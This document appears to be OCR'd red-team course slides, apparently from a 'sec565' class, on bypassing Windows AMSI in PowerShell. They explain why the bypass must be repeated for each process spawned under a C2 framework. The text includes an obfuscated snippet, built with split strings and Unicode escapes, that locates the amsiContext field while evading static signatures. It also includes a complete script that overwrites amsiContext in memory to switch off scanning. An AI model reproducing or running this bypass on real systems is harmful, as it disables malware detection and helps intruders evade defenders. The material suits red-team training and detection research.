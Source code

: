 
## AMSI Bypass in Action	
- AMSI is not a global patch, its patched for the current process only. 
- On a red team leveraging C2 framework, as some tasks might spawn a new process > Detected and Burned if we dont patch AMSI for the newly spawned process
## Over ride AMSI 
- In order to override the `amsiContext` we need to find it
- Identify the memory address of `amsiContext`
- Remember, AMSI is being enforced through injecting "amsi.dll" in processes that are being spawned.

This means that all the functionality of AMSI is available in that process's address space. It is here that we will already encounter our first hurdle: the “classic” approach to get this location is identified as malicious by AMSI

## Locate amsiContext
• Static analysis is the likely mechanism
• Test this hypothesis
• Use Unicode characters using built-in PowerShell functionality
```
[Ref].Assembly.GetType('System.Management.Automation.'+[regex]::Unescape('\u
0041')+'msiUtils').GetField("ams"+[regex]::Unescape('\u0069')+"Context",'Non
Public,Static').GetValue($null)
```

## AMSI under the Hood
• Now that we have the memory location
	We can create an arbitrary byte array
	Place it where amsiContext code should be
• First look at what should be there in a debugger

## Creating the AMSI Bypass
Let's create our bypass:
1. First, we are going to create a new byte array that contains the sentence "sec565 rules!!!" in hexadecimal representation
2. We will use the Count function to dynamically compute the size of the array
3. Finally, we will copy the byte array to the amsiContext location, overriding what is currently there

## AMSI Bypass Code
- We create the byte array and will find the length for our call to copy later on.
- Once we get the memory address, we print it to standard out.
- Finally, we copy our byte array to where amsiContext is in memory.
```powershell
# create the byte array
$sec565 = [Byte[]]
(0x73,0x65,0x63,0x35,0x36,0x35,0x20,0x72,0x75,0x6c,0x65,0x73,0x21,0x21,0x21)
# calculate the length of the array dynamically
$length = $sec565.Count
# get the memory location of amsiContext
[IntPtr]$ptr = [Ref].Assembly.GetType('System.Management.Automation.'+[regex
]::Unescape('\u0041')+'msiUtils')
.GetField("ams"+[regex]::Unescape('\u0069')+"Context",'NonPublic,Static').Ge
tValue($null)
# echo it, so we can inspect it in a debugger if we want
echo $ptr
# copy the array to the memory location
[System.Runtime.InteropServices.Marshal]::Copy($sec565,0,$ptr,$length)
```

## AMSI Bypass in Action
```
```